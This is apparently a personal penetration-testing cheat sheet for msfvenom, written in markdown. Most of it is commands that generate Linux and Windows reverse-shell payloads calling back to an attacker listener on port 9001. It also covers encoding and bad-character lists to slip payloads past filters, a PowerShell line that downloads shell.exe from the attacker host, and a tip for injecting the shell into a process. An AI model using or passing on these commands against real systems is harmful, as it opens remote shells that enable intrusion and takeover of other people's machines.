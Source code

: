 ```yaml
---
tags:
  - shells
---
```

# msfvenom

Generate and encode payloads

## Capabilities

```bash
# Binaries
msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.14.191 lport=9001 -f elf -o shell
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.191 lport=9001 -f exe -o shell.exe

# Windows C code
msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.18 lport=9001 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b '\x00\x0a\x0d\x25\x26\x2b\x3d'
```

Note: `EXITFUNC=thread` is useful when injecting into a process as without it, closing the shell would end the injected process

Download a file in powershell with the command

```powershell
iwr -U "http://10.10.14.191/shell.exe" -O "shell.exe"
```

If not popping a shell, try increasingly strict character blacklists

```
'\x00\x0a\x0d'
'\x00\x0a\x0d\x25\x26\x2b\x3d'
```

Note: `shell_reverse_tcp` is not staged, whereas `shell/reverse_tcp` is.

A staged payload is sent in 2 parts, where the majority of the data is sent in the 2nd part, whereas non-staged payloads are sent all at once

